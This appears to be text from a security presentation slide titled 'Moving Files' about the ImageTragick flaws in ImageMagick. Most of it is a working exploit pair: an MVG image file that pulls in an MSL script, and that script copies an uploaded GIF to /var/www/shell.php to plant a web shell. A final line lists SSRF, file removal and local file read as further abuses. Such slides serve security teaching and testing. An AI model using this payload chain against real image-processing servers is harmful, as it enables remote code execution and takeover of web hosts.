

Moving Files

File_Move.mvg
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 ‘msl:/tmp/msl.txt'
popgraphic-context

/tmp/msl.txt
<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="/tmp/image.gif" />
<write filename="/var/www/shell.php" />
</image>

ImageMagick supports methods for reading from URL (SSRF), File Removal, and Local File Read.
http://www.imagetragick.com